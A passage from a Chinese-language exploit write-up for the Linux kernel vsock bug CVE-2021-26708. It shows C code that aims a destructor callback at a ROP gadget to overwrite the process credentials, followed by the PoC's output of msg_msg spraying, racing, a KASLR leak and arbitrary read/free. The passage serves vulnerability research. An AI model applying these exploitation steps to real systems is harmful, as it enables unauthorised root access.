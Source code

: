 下面讲讲`destructor_arg` 回调:

```
/*
     * A single ROP gadget for arbitrary write:
     *   mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
     * Here rdi stores uinfo_p address, rcx is 0, rsi is 1
     */
    uinfo_p-&gt;callback = ARBITRARY_WRITE_GADGET + kaslr_offset;
    uinfo_p-&gt;desc = owner_cred + CRED_EUID_EGID_OFFSET; /* value for "qword ptr [rdi + 8]" */
    uinfo_p-&gt;desc = uinfo_p-&gt;desc - 1; /* rsi value 1 should not get into euid */
```

由于在`vmlinuz-5.10.11-200.fc33.x86_64`中找不到一个能满足我需求的gadget，所以我自己进行了研究构造。

`callback`函数指针存储一个ROP gadget 地址，`RDI`存储`callback`函数的第一个参数，也就是`ubuf_info`本身的地址，`RDI + 8`指向`ubuf_info.desc`。gadget 将`ubuf_info.desc`移动到`RDX`。现在`RDX`包含有效用户ID和组ID的地址减一个字节。这个字节很重要：当gadget从 `RSI`向 `RDX`指向的内存中写入消息**1**时，有效的 `uid`和 `gid`将被零覆盖。重复同样的过程，直到权限升级到`root`。整个过程输出流如下：

```
[a13x@localhost ~]$ ./vsock_pwn

=================================================
==== CVE-2021-26708 PoC exploit by a13xp0p0v ====
=================================================

[+] begin as: uid=1000, euid=1000
[+] we have 2 CPUs for racing
[+] getting ready...
[+] remove old files for ftok()
[+] spray_data at 0x7f0d9111d000
[+] userfaultfd #1 is configured: start 0x7f0d91121000, len 0x1000
[+] fault_handler for uffd 38 is ready

[+] stage I: collect good msg_msg locations
[+] go racing, show wins: 
    save msg_msg ffff9125c25a4d00 in msq 11 in slot 0
    save msg_msg ffff9125c25a4640 in msq 12 in slot 1
    save msg_msg ffff9125c25a4780 in msq 22 in slot 2
    save msg_msg ffff9125c3668a40 in msq 78 in slot 3

[+] stage II: arbitrary free msg_msg using corrupted msg_msg
    kaddr for arb free: ffff9125c25a4d00
    kaddr for arb read: ffff9125c2035300
[+] adapt the msg_msg spraying payload:
    msg_ptr 0x7f0d91120fd8
    m_type 1337 at 0x7f0d91120fe8
    m_ts 6096 at 0x7f0d91120ff0
    msgseg next 0xffff9125c2035300 at 0x7f0d91120ff8
[+] go racing, show wins: 

[+] stage III: arbitrary read vsock via good overwritten msg_msg (msq 11)
[+] msgrcv returned 6096 bytes
[+] Found sk_memcg ffff9125c42f9000 (offset 4712 in the leaked kmem)
[+] Found owner cred ffff9125c3fd6e40 (offset 4888 in the leaked kmem)
[+] Found sock_def_write_space ffffffffab9851b0 (offset 4736 in the leaked kmem)
[+] Calculated kaslr offset: 2a000000

[+] stage IV: search sprayed skb near sk_memcg...
[+] checking possible skb location: ffff9125c42fa000
[+] stage IV part I: repeat arbitrary free msg_msg using corrupted msg_msg
    kaddr for arb free: ffff9125c25a4640
    kaddr for arb read: ffff9125c42fa030
[+] adapt the msg_msg spraying payload:
    msg_ptr 0x7f0d91120fd8
    m_type 1337 at 0x7f0d91120fe8
```
